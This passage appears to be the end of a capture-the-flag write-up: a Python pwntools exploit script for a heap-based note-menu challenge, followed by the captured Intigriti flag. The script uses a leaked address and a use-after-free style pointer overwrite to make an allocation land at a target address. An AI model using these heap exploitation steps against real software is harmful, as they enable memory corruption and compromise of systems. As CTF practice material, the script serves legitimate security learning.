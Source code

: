 ```python

    return r


def main():
    r = conn()
    input()
    r.recvuntil(b'Here a gift: ')
    main_addr = int(r.recv(16).decode(), 16)
    key_addr = main_addr + 0x200eb2
    info(b'Main address: ' + hex(main_addr).encode())
    info(b'Key address: ' + hex(key_addr).encode())
    # Create note: 
    for i in range(2): 
        r.sendlineafter(b'> ', b'1')
        r.sendlineafter(b'> ', str(i).encode())
        r.sendlineafter(b'> ', b'20')
        r.sendlineafter(b'> ', b'A')
    # Delete note
    r.sendlineafter(b'> ', b'4')
    r.sendlineafter(b'> ', b'1')
    # pause()
    # Edit note
    r.sendlineafter(b'> ', b'3')
    r.sendlineafter(b'> ', b'0')
    # pause()
    payload = b'A'*16 + p64(0) + p64(0x20) + p64(key_addr)
    r.sendlineafter(b'> ', payload)
    
    r.sendlineafter(b'> ', b'1')
    r.sendlineafter(b'> ', b'2')
    r.sendlineafter(b'> ', b'20')
    r.sendlineafter(b'> ', b'1')

    # pause()

    r.sendlineafter(b'> ', b'1')
    r.sendlineafter(b'> ', b'3')
    r.sendlineafter(b'> ', b'20')
    r.sendlineafter(b'> ', p64(0xcafebabe))
    pause()
    r.sendlineafter(b'> ', b'5')
    pause()
    # good luck pwning :)

    r.interactive()


if __name__ == "__main__":
    main()

```
Result: 

![image](https://hackmd.io/_uploads/SkfPeRrGyl.png)

Flag: ```INTIGRITI{h0us3_0f_f0rc3_f0r_th3_w1n}```
